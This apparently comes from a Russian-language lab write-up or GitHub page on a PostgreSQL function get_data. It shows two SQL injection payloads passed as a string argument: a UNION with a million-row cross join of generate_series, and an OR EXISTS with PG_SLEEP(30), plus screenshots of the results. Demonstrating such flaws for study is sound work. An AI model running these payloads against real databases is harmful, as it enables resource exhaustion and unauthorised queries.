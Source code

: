     SELECT * FROM get_data('1'' UNION
    (SELECT a1, CAST(a1 AS VARCHAR), CAST(a1 AS INTEGER)
    FROM (SELECT generate_series a1 FROM generate_series (1,1000)) t1
    CROSS JOIN (SELECT * FROM generate_series (1,1000) t2) t3) -- ');
<img width="565" alt="2-2-5-1" src="https://user-images.githubusercontent.com/55449630/206283862-6858632d-d0a3-438a-95ca-299f549c60ca.png">

    SELECT * FROM get_data('1'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');
<img width="565" alt="2-2-5-2" src="https://user-images.githubusercontent.com/55449630/206283860-5e1b354d-e6b1-43d9-a14a-f9b54cb1f708.png">

#### Через 30 секунд:
<img width="565" alt="2-2-5-3" src="https://user-images.githubusercontent.com/55449630/206283851-80d54a1a-a226-46db-8b82-aca61faee4b8.png">

